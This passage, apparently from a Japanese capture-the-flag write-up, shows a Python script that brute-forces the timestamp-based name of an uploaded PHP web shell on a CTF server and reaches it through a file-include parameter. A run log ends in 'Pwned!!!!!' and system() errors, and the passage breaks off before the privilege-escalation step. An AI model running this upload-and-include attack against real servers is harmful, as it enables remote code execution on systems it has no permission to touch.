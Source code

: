 ```python
        end = int("0x" + re.search("uploads/([0-9a-f]*)_0d6fb", res[-1]).group(1), 16)
        print(f"[{end - start}]")

        if -1 < end - start < 700:
            for i in range(end - start + 1):
                print(f"{i + 1}/{end - start + 1}")
                filename = f"{f'{hex(end - i)}'.replace('0x', '')}_5e0b2ce2b5586766a112f37e4ae49da5e9d7be72afaf1a29858ecc70ecc2f5be_satoki.php"
                try:
                    res = requests.get(f"https://filestore.web.actf.co?f={filename}").text
                except Exception as e:
                    print(f"ERROR: {e}")
                    continue
                if "No such file or directory" not in res:
                    print("Pwned!!!!!")
                    print(f"https://filestore.web.actf.co?f={filename}")
                    print(res)
                    sys.exit()
    except Exception as e:
        print(f"ERROR: {e}")
        continue
```
実行する。  
```bash
$ python attack.py
~~~
[8687]
[9270]
[74466]
[89384]
[134885]
[476]
1/477
2/477
3/477
~~~
197/477
198/477
199/477
Pwned!!!!!
https://filestore.web.actf.co?f=644581a9740ce_5e0b2ce2b5586766a112f37e4ae49da5e9d7be72afaf1a29858ecc70ecc2f5be_satoki.php
satoki<br />
<b>Warning</b>:  Undefined array key "satoki" in <b>/var/www/html/uploads/644581a9740ce_5e0b2ce2b5586766a112f37e4ae49da5e9d7be72afaf1a29858ecc70ecc2f5be_satoki.php</b> on line <b>3</b><br />
<br />
<b>Deprecated</b>:  system(): Passing null to parameter #1 ($command) of type string is deprecated in <b>/var/www/html/uploads/644581a9740ce_5e0b2ce2b5586766a112f37e4ae49da5e9d7be72afaf1a29858ecc70ecc2f5be_satoki.php</b> on line <b>3</b><br />
<br />
<b>Fatal error</b>:  Uncaught ValueError: system(): Argument #1 ($command) cannot be empty in /var/www/html/uploads/644581a9740ce_5e0b2ce2b5586766a112f37e4ae49da5e9d7be72afaf1a29858ecc70ecc2f5be_satoki.php:3
Stack trace:
#0 /var/www/html/uploads/644581a9740ce_5e0b2ce2b5586766a112f37e4ae49da5e9d7be72afaf1a29858ecc70ecc2f5be_satoki.php(3): system('')
#1 /var/www/html/index.php(21): include('/var/www/html/u...')
#2 {main}
  thrown in <b>/var/www/html/uploads/644581a9740ce_5e0b2ce2b5586766a112f37e4ae49da5e9d7be72afaf1a29858ecc70ecc2f5be_satoki.php</b> on line <b>3</b><br />
```
ヒットした。  
あとは用意してあったPEを行うだけである。  
以下の通り実行する。  
